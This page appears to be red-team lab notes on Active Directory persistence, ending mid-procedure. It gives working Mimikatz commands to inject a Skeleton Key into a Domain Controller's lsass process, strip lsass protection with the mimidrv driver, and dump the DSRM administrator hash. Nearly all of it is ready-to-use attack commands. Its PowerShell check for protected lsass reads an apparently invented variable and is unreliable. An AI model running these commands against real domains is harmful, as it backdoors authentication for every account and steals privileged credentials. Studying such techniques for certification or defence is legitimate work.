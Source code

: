 * Skeleton key is persistence technique where it is possible to patch a Domain Controller (lsass process) so that allows access as any user with a single password.
* All publicaly available methods are NOT persistent across reboots.

Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required -->

```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

\--> Now, it is possible to access any machine with a valid username and password as "mimikatz"

```
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```

**NOTE - that Skeleton Key is not opsec safe and is also known to cause issues with AD CS.**

In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC -

_NOTE : To check if lsass is running as a protected process or not -_

```
if ((Get-Process -Name lsass).StartInfo.EnvironmentVariables['PROCESS_MITIGATION_SYSTEM_CALL_DISABLE_POLICY_SID']) { "Protected" } else { "Not Protected" }
```

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

Note that above would be very noisy in logs - Service installation (Kernel mode driver)

### DSRM - (with the longest shelf life)

* DSRM is **Directory Services Restore Mode**.
* There is a local administrator on every DC called "Administrator" whose password is the DSRM password.
* DSRM password (**SafeModePassword**) is required when a server is promoted to Domain Controller and it is rarely changed.
* After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

![](<.gitbook/assets/image (11).png>)

* Dump DSRM password (needs DA privs)

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

* Compare the Administrator hash with the Administrator hash of below command
